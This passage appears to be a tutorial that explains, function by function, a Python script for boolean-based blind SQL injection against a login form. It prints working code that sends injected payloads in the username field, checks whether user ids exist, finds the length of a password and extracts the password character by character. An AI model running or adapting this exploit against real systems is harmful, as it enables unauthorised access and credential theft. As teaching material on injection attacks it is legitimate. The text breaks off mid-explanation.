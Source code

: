    - **target**: The URL of the target web application where the SQL injection will be performed.
   - **needle**: A string that the script looks for in the server’s response to determine if the SQL injection query was successful.

### 2. **Injected Query Function**
   ```python
   def injected_query(payload):
       global total_queries
       r = requests.post(target, data={"username": "admin {}--".format(payload), "password": "password"})
       total_queries += 1
       return needle.encode() not in r.content
   ```
   **Explanation**:
   - **injected_query(payload)**: This function sends an HTTP POST request with the SQL injection payload.
   - **requests.post**: Sends a POST request to the target URL, submitting a form with the SQL injection in the `username` field.
   - **total_queries += 1**: Increments the global query counter each time the function is called.
   - **needle.encode() not in r.content**: Checks if the `needle` string is absent in the response content. If `needle` is not found, it means the SQL injection was successful.

### 3. **Boolean Query Function**
   ```python
   def boolean_query(offset, user_id, character, operator=">"):
       payload = "(select hex(substr(password,{},1)) from user where id = {}) {} hex('{}')".format(offset + 1, user_id, operator, character)
       return injected_query(payload)
   ```
   **Explanation**:
   - **boolean_query(offset, user_id, character, operator=">")**: Performs a boolean-based SQL injection to determine if a specific character at a given position in the password is greater than the provided character.
   - **payload**: Constructs the SQL injection payload using the offset (position of the character in the password), the `user_id`, and the character to compare.
   - **injected_query(payload)**: Sends the constructed payload to the `injected_query` function to execute the SQL injection.

### 4. **Invalid User Check Function**
   ```python
   def invalid_user(user_id):
       payload = "(select id from user where id = {}) >= 0".format(user_id)
       return injected_query(payload)
   ```
   **Explanation**:
   - **invalid_user(user_id)**: Checks if a given `user_id` exists in the database by sending a SQL query that always evaluates to true if the `user_id` is valid.
   - **payload**: The payload checks whether the `id` of the user exists.
   - **injected_query(payload)**: If the query fails, the `user_id` does not exist.

### 5. **Password Length Determination Function**
   ```python
   def password_length(user_id):
       i = 0
       while True:
           i += 1
           payload = "(select length(password) from user where id = {} and length(password) <= {} limit 1)".format(user_id, i)
           if not injected_query(payload):
               return i
   ```
   **Explanation**:
   - **password_length(user_id)**: This function determines the length of the password for a specific user.